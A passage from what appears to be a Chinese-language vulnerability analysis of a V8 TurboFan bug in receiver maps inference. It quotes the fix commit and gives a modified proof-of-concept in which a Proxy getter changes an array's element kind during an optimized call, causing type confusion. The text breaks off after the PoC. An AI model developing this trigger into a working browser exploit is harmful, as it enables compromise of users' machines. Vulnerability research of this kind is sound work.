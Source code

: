 首先查看[回归测试](https://chromium.googlesource.com/v8/v8.git/+/fb0a60e15695466621cf65932f9152935d859447)，我们可以得到以下信息：

```bash
[turbofan] Fix bug in receiver maps inference

JSCreate can have side effects (by looking up the prototype on an
object), so once we walk past that the analysis result must be marked
as "unreliable".
```

漏洞的成因在于`turbofan`认为`JSCreate`结点不会存在`side effects`，因此并未将其标记为`unreliable`。但我们尚不清楚这个漏洞会造成什么危害，接着看一下我修改后的的`poc`：

```jsx
// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];	// 创建时的类型是PACKED_SMI_ELEMENTS
function empty() {}
function f(p) {
	// Reflect.construct可以生成JSCreate结点
	// 作为pop函数的参数可以将JSCreate结点加入到effech chain之中，原因之后会说
	return a.pop(Reflect.construct(empty, arguments, p));
}
// new Proxy(target, handler)设置回调函数 
// handler.get()用于拦截对象的读取属性操作
let p = new Proxy(Object, {
	get: () => {
		%DebugPrint(a);
		%SystemBreak();
		a[0] = 1.1;	// 修改之后的类型是PACKED_DOUBLE_ELEMENTS
		%DebugPrint(a);
		%SystemBreak();
		return Object.prototype;
	}
});

function main(p) {
	return f(p);
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);
main(empty);    // a = [0, 1, 2, 3]
main(empty);    // a = [0, 1, 2]
%OptimizeFunctionOnNextCall(main);
// 当f()的第三个参数为p时，会调用p.prototype来创建新的对象
// 访问属性的时候自然会被handler.get()拦截，也就会跳转到我们设置的get函数
main(p);
```

第一眼看到的内容如下：
